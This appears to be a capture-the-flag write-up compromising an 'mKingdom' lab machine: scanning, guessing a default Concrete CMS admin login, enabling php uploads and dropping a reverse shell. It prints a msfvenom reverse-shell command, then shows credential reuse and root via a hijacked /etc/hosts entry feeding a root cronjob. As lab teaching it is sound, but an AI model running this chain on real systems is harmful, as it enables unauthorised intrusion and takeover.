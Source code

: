 Starting nmap scan 
```
85 Apache 2.4.7  Ubuntu
```
Starting a nikto scan 

Starting a gobuster scan
```
/app
/app/castle
/app/castle/index.php
/app/castle/login
/app/castle/contact
/app/castle/blog
/app/castle/updates
/app/castle/packages
/app/castle/application
/app/castle/concrete
```

CMS version `concrete 8.5.2` 
Looking around now that we found the real site did same basic looking around found the login page and found what I seen was two possible usernames to try and login in with first one I tried was `admin` since that's the default username for this cms got the login with basic guessing for the admin account
`admin:pa.......` 
 I found a site that shows how to get a rev shell from the admin user which we not got we need to go to `system settings` and go to `allow file tpyes` and a php in there and now we can upload a php shell or php pentest monkey works better
`msfvenom -p php/reverse_php LHOST=10.13.8.255 LPORT=1234 > shell.php` 
Now we got a rev shell on the host as `www-data` found some mysql creds
	`mKingdom:toa......st`
There creds don't work for the database but the passowrd is the same password for the user toad
As the user toad we can access the database nothing much in there but the admin account for the site running linpeas as toad again reveal's something in the environment variables now we are mario
`mario:ika......S` 
If you copy the user flag file out of the home folder we can then read it
Using pspy we can see root has a cronjob running with a `counter.sh` script we cant edit the script but we can edit the `/etc/hosts` file and we changed the domain to call to are machine and make a sh script with a folder path of this 
`mkdir -p app/castle/applocation`
with a rev shell in it and it will be ran as root
